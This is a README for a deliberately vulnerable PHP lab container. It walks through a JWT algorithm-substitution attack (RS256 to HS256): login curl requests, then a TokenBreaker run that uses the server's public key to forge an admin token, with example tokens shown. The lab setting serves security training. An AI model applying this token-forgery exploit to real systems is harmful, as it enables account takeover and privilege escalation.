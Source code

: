 ## Php-Jwt-Substitution-Attack_Rsa256_to_Hs256


JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp 

https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf

https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html


## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-php-rsa256tohs256


    docker run -ti -p 9090:5000 mhnamadi/jwt-php-rsa256tohs256
    
    docker ps 
    
    docker exec -it ContainerID bash 
    
    service apache2 start
    
    service mysql start 
    
    Done :))    
    
## Description 

         We have 2 account securestore:securestore and admin:admin 
    
         We want to account takeover from securestore to admin account with this attack

## Payload 
  
        Login to securestore and get jwt RSA256
        

1. curl -i -s -k -X $'POST' -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 69' -H $'User-Agent:Mozilla/5.0(Macintosh; Intel Mac OS X 10.15;rv:97.0) Gecko/20100101 Firefox/97.0' --data-binary $'{\"name\": \"login\",\"param\":{\"user\":\"securestore\",\"pass\":\"securestore\"}}' $'http://192.168.1.104:9090/v3/'

![Getting Started](80.png)


        Login to admin and get jwt RSA256
        
        
2. curl -i -s -k -X $'POST'  -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 57' -H $'User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' --data-binary $'{\"name\": \"login\",\"param\"{\"user\":\"admin\",\"pass\":\"admin\"}}'  $'http://192.168.1.104:9090/v3/'

![Getting Started](81.png)

3. the first is fuzzing on JWT token securestore and admin account 

![Getting Started](82.png)


![Getting Started](83.png)


4. We want to add "userId":"admin","isAdmin":"true" to secure store account 

        TokenBreaker is one of the best tools for JWT Attack
    
5. https://github.com/cyberblackhole/TokenBreaker    

## Attack 

        Use JWT securestore token and change payload
  
mhs-MacBook-Pro:TokenBreaker mhn$ python3 RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2NDU0Nzc0NjYsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4NjQ2NiwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.NX6p76T2p5-DfhJcLHTJ64F_-xv6pl1iRFCrm4gDM-UPNpjmm2_1F0pfplcfrlIJEDgBQnMPe3245RLXk_gMWstJ1T3QehJIOMcBTruxbwzOUaOdF3IY-eBfeLgH0854xYnf0MW6rtezWD4a66VecsmjV3sUtRUcujF5ytpx_zqdAyEKT7dZTNLo-Wi8hTszLVhEFy_amLfIKOoWsDh43To3bvJU6OJZ1m8zAFc3Ur87GrL92wv1TToDDvmdrF9uubuZxD1tW6pek0U--DQLmcgegsKLl4_JPQNdxfmS5Eycku09IaA-4a68nrEZOPfyq-1-0lTaB_xlcDVQfFAT-g -p public.pem 

[<] Enter Your Payload value: {"iat":1645479477,"iss":"localhost","exp":1645488477,"userId":"admin","isAdmin":"true"}

[+] Successfully Encoded Token: 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NDU0Nzk0NzcsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4ODQ3NywidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.MdUsaQIPcVsIggim6PKt91wTsTFcWQwwwI5UIX048i8


![Getting Started](84.png)

   
## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
     
## Fix 

We encourage you to contribute to Project and Fix Codes



